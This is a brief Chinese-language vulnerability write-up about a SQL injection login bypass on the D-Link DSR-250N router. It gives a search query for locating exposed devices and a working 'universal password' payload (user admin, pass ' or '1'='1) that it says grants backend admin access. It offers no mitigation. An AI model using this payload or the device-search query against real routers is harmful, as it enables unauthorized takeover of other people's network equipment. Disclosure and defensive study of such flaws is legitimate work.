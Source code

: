 # D-Link DSR-250N SQL注入漏洞

## 漏洞描述

D-Link DSR-250N 存在万能密码漏洞，攻击者通过漏洞可以获取后台权限

## 漏洞影响

<a-checkbox checked>D-Link DSR-250N</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="D_Link-DSR-250N"</a-checkbox></br>

## 漏洞复现

登录页面如下



![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/image-20210609175053339.png)



```plain
user: admin
pass: ' or '1'='1
```

成功登录后台



![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/image-20210609175150907.png)

